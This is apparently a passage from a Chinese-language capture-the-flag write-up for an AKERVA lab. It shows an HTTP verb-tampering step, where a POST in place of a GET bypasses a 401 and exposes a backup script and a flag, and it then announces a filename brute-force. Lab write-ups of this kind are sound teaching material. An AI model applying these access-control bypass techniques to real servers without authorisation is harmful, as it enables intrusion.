 ```html title="http get http://10.13.37.11/scripts/backup_every_17minutes.sh"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at 10.13.37.11 Port 80</address>
</body></html>
```

尝试更换其他协议进行请求，比如 `POST`

```bash title="http post http://10.13.37.11/scripts/backup_every_17minutes.sh"
#!/bin/bash
#
# This script performs backups of production and development websites.
# Backups are done every 17 minutes.
#
# AKERVA{IKNoW###VeRbTamper!nG_==}
#

SAVE_DIR=/var/www/html/backups

while true
do
        ARCHIVE_NAME=backup_$(date +%Y%m%d%H%M%S)
        echo "Erasing old backups..."
        rm -rf $SAVE_DIR/*

        echo "Backuping..."
        zip -r $SAVE_DIR/$ARCHIVE_NAME /var/www/html/*

        echo "Done..."
        sleep 1020
done
```

```plaintext title="Flag
AKERVA{IKNoW###VeRbTamper!nG_==}
```

## Now You See Me

根据 `sleep 1020` 这句可以判断，这个脚本是每隔 17 分钟执行一次

尝试进行爆破文件名
